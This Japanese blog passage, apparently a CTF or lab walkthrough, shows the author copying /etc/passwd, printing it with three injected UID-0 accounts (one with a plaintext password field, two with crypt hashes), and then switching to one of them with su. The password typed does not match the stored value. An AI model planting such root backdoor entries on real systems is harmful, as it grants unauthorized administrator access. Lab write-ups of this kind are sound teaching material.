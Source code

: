 まずは`cp`をして、、  
  
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
_chrony:x:113:120:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
nobunaga:x:1001:1001::/home/nobunaga:/bin/sh
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:115:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
user01:passwd12:0:0:root:/root:/bin/bash
user02:$6$ignite$NpGq6ii4Sbk2v/3uaWdIbMDDbHAt6m.CPYIGYQuoJnMNuKka8NrYFBMd.yYK6n9.3SALkeNDq1CoGbgoW8bgd.:0:0:root:/root:/bin/bash

```
  
`cat`で見てみたら、ここまではうまくいってるっぽい。  
いやまじ上手くいってくれ。。。  
願いを込めて次を実行。  
  
```bash
su user01
pass12

```
  